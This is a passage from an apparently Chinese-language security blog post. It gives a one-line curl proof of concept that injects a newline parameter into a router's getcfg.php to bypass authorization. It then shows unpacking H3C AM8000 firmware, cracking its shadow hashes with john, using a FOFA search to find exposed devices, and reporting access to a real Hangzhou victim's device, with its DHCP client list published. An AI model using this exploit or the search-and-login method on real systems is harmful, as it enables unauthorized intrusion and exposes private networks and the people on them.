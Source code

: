 ```php
			$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
			/* GETCFG_SVC will be passed to the child process. */
			if (isfile($file)=="1") dophp("load", $file);
		}
		$SERVICE_INDEX++;
	}
}
?></postxml>
```

![QxocdSr2PITnA9J.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/QxocdSr2PITnA9J.png)

`Poc:`

```bash
curl -d "SERVICES=DEVICE.ACCOUNT&attack=ture%0aAUTHORIZED_GROUP=1" "http://{ip.addr}:{ip.port}/info/getcfg.php"
```

## 一：*H3C-AM8000V100R008*

- 下载地址：[*H3C - AM8000V100R008*](https://download.h3c.com.cn/download.do?id=2280937)

### 1x01 *binwalk*提取*systemfiles*

官网显示是2015年上传的包，下载下来直接在ubuntu里解包`➜ binwalk -Me AM8000V100R008.bin`，尴尬的是所有的文件就直接出来了么

![gZJaWD2EswuilcN.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/gZJaWD2EswuilcN.png)

发现`shadow`，解出来看看：`➜ john -format=md5crypt {file/path}  && john --show {file/path}`

![gmQKfkXq5w2nDsA.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/gmQKfkXq5w2nDsA.png)

### 1x02 默认帐号密码

> fofa: userLogin.asp

既然有了默认账号密码，去找找看有没有`幸运儿`，查看`web.config`入口文件为`userLogin.asp`，那就直接指定语法；

#### # 来自杭州的幸运儿

![IoJDbNSjw61398x.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/IoJDbNSjw61398x.png)

不光弱口令，还映射了n个内网端口到公网上，映射出来的端口是Hikvison的视频流端口和web管理，就不贴图了可以参考[Hikvision-ConfigurationFiles-decrypter](/about/Hikvision-ConfigurationFiles-decrypter)；

另外附上部分dhcp指向表自行感受一下：
```
5	F4:83:CD:00:62:CD	192.168.x.7	TL-WDR5600
6	18:87:40:96:43:7F	192.168.x.8	RedmiK305G-2510
7	58:6B:14:26:B4:4C	192.168.x.9	guoqingdeiPhone
8	4C:CC:6A:AA:D0:45	192.168.x.10	wp-pjb
9	74:27:EA:AC:44:2D	192.168.x.11	yjy-jcb
10	40:F2:E9:37:04:96	192.168.x.13	IMM2-40f2e93704
```
当然也是支持`telnet`连接的：
